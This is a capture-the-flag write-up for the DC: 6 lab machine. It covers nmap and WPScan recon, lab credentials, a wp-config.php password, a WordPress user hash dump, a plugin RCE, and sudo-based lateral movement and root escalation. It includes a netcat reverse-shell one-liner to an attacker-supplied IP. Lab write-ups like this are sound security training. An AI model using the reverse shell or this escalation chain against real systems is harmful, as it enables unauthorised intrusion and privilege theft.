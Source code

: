 # DC: 6
### Credentials
```
Wordpress:
mark / helpdesk01

Machine:
graham:GSo7isUM1D4

```
### Nmap Scan
```
Nmap scan report for dc-6 (192.168.1.26)
Host is up (0.00023s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 3e:52:ce:ce:01:b6:94:eb:7b:03:7d:be:08:7f:5f:fd (RSA)
|   256 3c:83:65:71:dd:73:d7:23:f8:83:0d:e3:46:bc:b5:6f (ECDSA)
|_  256 41:89:9e:85:ae:30:5b:e0:8f:a4:68:71:06:b4:15:ee (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-title: Did not follow redirect to http://wordy/
|_http-server-header: Apache/2.4.25 (Debian)
MAC Address: 08:00:27:3A:8C:A8 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## Recon
### Web Recon
* Server: Apache 2.4.45
* Tech Stack: PHP, Wordpress CMS (5.1.1), MySQL
* 
### WPScan
```
[+] Headers
 | Interesting Entry: Server: Apache/2.4.25 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://wordy/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://wordy/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://wordy/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.1.1 identified (Insecure, released on 2019-03-13).
 | Found By: Rss Generator (Passive Detection)
 |  - http://wordy/index.php/feed/, <generator>https://wordpress.org/?v=5.1.1</generator>
 |  - http://wordy/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.1.1</generator>

[+] WordPress theme in use: twentyseventeen
 | Location: http://wordy/wp-content/themes/twentyseventeen/
 | Last Updated: 2024-11-12T00:00:00.000Z
 | Readme: http://wordy/wp-content/themes/twentyseventeen/README.txt
 | [!] The version is out of date, the latest version is 3.8
 | Style URL: http://wordy/wp-content/themes/twentyseventeen/style.css?ver=5.1.1
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 2.1 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://wordy/wp-content/themes/twentyseventeen/style.css?ver=5.1.1, Match: 'Version: 2.1'


[i] User(s) Identified:

[+] admin
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://wordy/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] jens
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] graham
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] mark
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] sarah
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
 ```
 ## Machine Enumeration
 ### wpconfig.php
 ```
 define('WP_HOME','http://wordy');
define('WP_SITEURL','http://wordy');

define( 'DB_NAME', 'wordpressdb' );

/** MySQL database username */
define( 'DB_USER', 'wpdbuser' );

/** MySQL database password */
define( 'DB_PASSWORD', 'meErKatZ' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

```
### MySQL Dump
```
| ID | user_login | user_pass                          | user_nicename | user_email                  | user_url | user_registered     | user_activation_key                           | user_status | display_name    |
+----+------------+------------------------------------+---------------+-----------------------------+----------+---------------------+-----------------------------------------------+-------------+-----------------+
|  1 | admin      | $P$BDhiv9Y.kOYzAN8XmDbzG00hpbb2LA1 | admin         | blah@blahblahblah1.net.au   |          | 2019-04-24 12:52:10 |                                               |           0 | admin           |
|  2 | graham     | $P$B/mSJ8xC4iPJAbCzbRXKilHMbSoFE41 | graham        | graham@blahblahblah1.net.au |          | 2019-04-24 12:54:57 |                                               |           0 | Graham Bond     |
|  3 | mark       | $P$BdDI8ehZKO5B/cJS8H0j1hU1J9t810/ | mark          | mark@blahblahblah1.net.au   |          | 2019-04-24 12:55:39 |                                               |           0 | Mark Jones      |
|  4 | sarah      | $P$BEDLXtO6PUnSiB6lVaYkqUIMO/qx.3/ | sarah         | sarah@blahblahblah1.net.au  |          | 2019-04-24 12:56:10 |                                               |           0 | Sarah Balin     |
|  5 | jens       | $P$B//75HFVPBwqsUTvkBcHA8i4DUJ7Ru0 | jens          | jens@blahblahblah1.net.au   |          | 2019-04-24 13:04:40 | 1556111080:$P$B5/.DwEMzMFh3bvoGjPgnFO0Qtd3p./ |           0 | Jens Dagmeister |
+----+------------+------------------------------------+---------------+-----------------------------+----------+---------------------+-----------------------------------------------+-------------+-----------------+
 ```
## Getting a foothold
When logging in to the dashboard with found credentials we can see nothing special, I cannot upload plugins, change themes, add pages, etc. But I saw an interesting plugin named Activity Monitor which was vulnerable to an authenticated RCE vulnerability.
Using the exploit I get a limited shell, so I can use netcat to open another reverse shell and stabilise it.
```
nc -e /bin/bash <YOUR_IP> <YOUR_PORT>
```
And on my machine I opened a listener on the specified port.

### Movement inside the machine
Since the target is a wordpress site once in the machine i looked through the wp-config.php file which contained MySQL credentials. I was able to dump all the users from the database along with their hashed passwords which I was not able to crack.
Moving on, I found plain text credentials written in a to-do list which I used to move to the user “graham”.
Now as graham using “sudo -l” I see that I can run a file as the user “jens”. The vulnerability was that, that I had write permissions to the script run as jens, so I could just append /bin/bash and execute it as “jens” and get a shell as jens.

### Privilege Escalation
As user jens running “sudo -l” returns that I can run nmap without the use of a password. A search on gtfobins gives me a string of commands that when executed give me root shell.

## Notes
**Always** check for permissions on files run either by root or another higher level user. If I can append something to scripts that are ran as other users then the vulnerability exists.
* Pay attention to the language used in the script, I mean you can’t just append a bash command to a python script that easy or vice versa